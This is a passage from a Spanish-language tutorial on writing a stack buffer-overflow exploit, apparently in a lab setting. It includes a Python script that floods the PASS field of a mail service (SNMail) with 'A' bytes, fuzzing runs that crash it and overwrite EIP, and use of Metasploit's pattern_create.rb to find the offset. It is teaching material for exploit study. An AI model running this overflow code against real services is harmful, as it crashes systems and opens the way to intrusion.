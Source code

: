 ```py

    # Recibiendo el banner, para comprobar que nos hemos conectado al servicio
    banner = s.recv(1024)

    # print(banner) para ver la respuesta y comprobar que todo marcha.

    # En formato bytes de ahí la b, y \r\n que es retorno de carro y espacio para representar el enter. Ya que al conectar al servicio te pide el User y después de escribirlo tienes que dar al enter.
    s.send(b"USER guise" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + b"A"*total_lenght + b'\r\n')
    s.close()

    # Si quisieras ver la respuesta hasta aquí añade;
    # response = s.recv(1024)
    # print(response)



if __name__ == '__main__':
    
    exploit()
```
Ahora lanzariamos el exploit desde nuestra máquina atacante con el Inmunity y el servicio abierto en el Windows claro. Cuando en el Inmunity pare, saldrá "pause" abajo derecha, es cuando habrá colapsado:
```sh
> python3 exploit.py 300
# No ha pasado nada, el Inmunity sigue en estado "running"

> python3 exploit.py 1000
# Sigue corriendo, pues probemos a meter más.

> python3 exploit.py 5000
# Se ha parado!
```
Bien se ha parado y el **EIP** (justo abajo explico un poco) apunta a 41414141 (realmente 0x41414141), que son cuatro letras "A". Has sobreescrito registros de la memoria, ya que el programador no espera recibir tantos bytes de entrada.

ESP = Pila o stack, extended stack pointer.  
EIP = Extended Instruction Pointer. Puntero de instrucción que apunta a la siguiente instrucción que el microprocesador debe ejecutar.

La pregunta es ¿Cuántas "A" tenemos que meter para sobrescribir el EIP?.

Para ello usaremos una herramienta que facilita metaexploit llamada **pattern_create.rb**, en la ruta /usr/share/metaexploit-framework/tools/exploit/pattern_create.rb. Te genera un número que tu le indiques de bytes aleatorios y luego con **pattern_offset** puedes localizar la posición exacta de cada uno y así localizar el **offset** -cantidad de bytes hasta llegar al EIP- también llamado junk(basura).
```sh
/usr/share/metaexploit-framework/tools/exploit/pattern_create.rb -l 5000
# Nos lo copiamos el resultado
```
El programa en el Windows estará pausado/corrompido, cierralo y vuelve abrir. Y lo mismo con el Inmunity, attach al SNMail --> play.
